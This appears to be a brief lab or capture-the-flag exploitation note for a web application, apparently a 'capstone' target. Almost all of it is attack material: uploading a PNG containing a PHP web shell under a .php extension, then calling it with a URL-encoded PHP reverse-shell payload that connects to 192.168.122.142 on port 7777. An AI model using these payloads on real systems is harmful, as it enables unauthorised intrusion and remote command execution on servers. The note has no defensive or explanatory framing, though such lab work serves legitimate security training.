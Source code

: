 - login with jeremy admin account and upload a png file with embedded php code with .php extension.
- embedded php code: `<?php system($_GET['c']) ?>`

`which bash`: `/bin/bash`
`which curl`: `/usr/bin/curl`
`which php`: `/usr/local/bin/php`

payload: `'$sock=fsockopen("192.168.122.142",7777);exec("/bin/sh -i <&3 >&3 2>&3");'`

URL to call: `/capstone/assets/13.php?c=/usr/local/bin/php+-r+'$sock%3dfsockopen("192.168.122.142",7777)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b'`

